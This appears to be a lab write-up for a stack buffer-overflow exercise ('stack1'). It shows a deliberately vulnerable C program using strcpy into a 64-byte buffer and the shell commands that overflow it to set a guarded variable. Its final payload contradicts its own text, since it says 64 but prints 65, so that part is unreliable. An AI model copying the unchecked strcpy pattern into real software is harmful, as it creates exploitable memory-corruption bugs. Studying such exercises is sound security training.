

### Stack 1:
-------------------------------------
#### Source Code:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```
#### Exploitation:
So, after doing the first exercise, we kind of got an idea as to how to exploit a basic stack-overflow. Now, similarly, in this one, we'll be exploiting the `modified` variable. So, let's run the code that we wrote for the previous exercise. `python -c "print 'A'*64" | ./stack1`

We can see that this exploit fails with an error as we have to pass this as an argument to the program instead of passing it as an input. So, modifying the exploit `./stack1 $(python -c "print 'A'*64")`

Now, we can see that our argument has been passed. Now, let us try a payload that will overflow the buffer `./stack1 $(python -c "print 'A'*65")`

In this output, we can see that our payload overloaded the buffer and the modified was overwritten as `0x00000041` as `41` is `A`. So, in order to overflow it correctly, we need the `modified` to be equal to `0x61626364`. So, converting this in python3 using this `python3 -c "print((0x61626364.to_bytes(4, 'little')).decode('utf-8'))"`

Now, crafting our payload, the payload becomes: `./stack1 $(python -c "print 'A'*65 + 'dcba'")`

We can see that this payload is incorrect because it will firstly overflow the buffer with an additional `'A'`, so, now, we'll just remove one `A` by decreasing the value from our payload from `65` to `64`. So, the final payload that we'll use will be
```./stack1 $(python -c "print 'A'*65 + 'dcba'")```

